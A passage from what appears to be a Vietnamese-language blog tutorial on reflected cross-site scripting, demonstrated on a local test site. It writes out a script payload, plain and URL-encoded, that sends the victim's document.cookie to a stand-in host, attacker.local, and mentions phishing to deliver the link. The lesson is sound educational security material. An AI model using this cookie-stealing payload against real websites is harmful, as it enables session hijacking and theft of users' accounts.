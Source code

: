 ```
http://site1.local/tut4/index.php?name=toan
```

Kết quả sẽ trả lại là 

![URL get]( {{site.url}}/assets/img/2021/05/17/210517_url_get.JPG){:width="500px"}

+ Tuy nhiên cải biên một chút ta lại truyền vào như sau:

Payload: 

```
<script>document.write('<img src="http://site1.local/index.php?c='%2bdocument.cookie%2b'" />');</script>
```


URL: 

```
http://site1.local/tut4/index.php?name=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://attacker.local/index.php?c=%27%2bdocument.cookie%2b%27%22%20/%3E%27);%3C/script%3E
```

Kết quả trả lại sẽ là redirect sang trang 

![URL get2]( {{site.url}}/assets/img/2021/05/17/210517_url_get2.JPG){:width="500px"}

Nhưng khi soi log access của trang attacker.local (URL mà ta truyền vào payload) sẽ thấy

![URL get3]( {{site.url}}/assets/img/2021/05/17/210517_url_get3.JPG){:width="500px"}

Bằng việc khai thác xss đã lấy được toàn bộ dữ liệu cookie của trang web. 

Qua ví dụ ta có thể thấy rằng việc tấn công XSS gồm 2 pha.

**Pha 1:** Để chạy malicious Javascript code trên trình duyệt nạn nhân thì attacker phải tìm được một cách để inject maliciouse code (payload) vào trang web nạn nhân truy cập.

**Pha 2:** Sau đó nạn nhân phải try cập trang web chứa malicious coe. Nếu attack trực tiếp vào một nạn nhân nhất định, attacker phải sử dụng các kỹ thuật như social engineering hoặc/và phishing để gửi malicious URL tới nạn nhân.

Nhìn chung thì mức độ ảnh hưởng của XSS thường nhỏ hơn SQL Injection. Tuy nhiên cũng như SQL Injection trong suốt nhiều năm liền XSS vẫn nằm trong top 10 OSWAP. Đó là lý do tại sao mà tôi lại đi sâu vào phân tích lỗi này. 

Bài viết tương đối dài nên tôi xin dừng tại đây. Hẹn các bạn ở những bài viết tiếp theo.

**Tham khảo**

[1] https://owasp.org/www-community/attacks/xss/

[2] https://www.acunetix.com/websitesecurity/cross-site-scripting/



